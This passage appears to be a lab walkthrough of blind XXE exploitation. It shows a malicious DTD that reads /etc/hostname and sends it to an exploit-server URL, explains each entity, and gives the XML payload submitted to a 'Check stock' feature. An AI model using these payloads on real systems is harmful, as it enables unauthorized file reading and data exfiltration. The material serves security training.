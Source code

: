 Create the following DTD file (`malicious.dtd`) and upload it to your exploit server:
 > Note you can also used your collabrator server so you get response there instamce of this  https://exploit-0ad2004004843a168182a2f5018800b6.exploit-server.net/?x=%file

```dtd
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'https://exploit-0ad2004004843a168182a2f5018800b6.exploit-server.net/?x=%file;'>">
%eval;
%exfiltrate;
```
> 💡 **Note:** Instead of using the provided exploit server, you can optionally host the DTD on your own **Burp Collaborator server** or **OAST domain** (e.g., `https://your-collaborator-id.oastify.com/?x=%file`).
> This approach allows you to directly observe DNS or HTTP interactions triggered by the vulnerable XML parser, making it ideal for blind XXE exploitation and real-time validation.

>  ![image](https://github.com/user-attachments/assets/90b98c32-3675-4aad-aafe-9bb7ce8cec8b)


#### 🔍 Explanation:

* `<!ENTITY % file SYSTEM "file:///etc/hostname">`
  → Loads the contents of `/etc/hostname` into the `file` entity.

* `<!ENTITY % eval "...">`
  → Dynamically defines another entity, `exfiltrate`, to send the file contents via HTTP to your server.

* `%eval;`
  → Triggers evaluation of the new declaration.

* `%exfiltrate;`
  → Executes the request to send the file content as a query parameter.

---

### 📦 Step 2: Send the XML Payload to Target Application

Submit the following XML payload to the vulnerable "Check stock" feature:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "https://exploit-0ad2004004843a168182a2f5018800b6.exploit-server.net/malicious.dtd">
  %xxe;
]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```

 ![image](https://github.com/user-attachments/assets/2f828841-fd9e-46e7-913e-0cd1f75b01fe)

---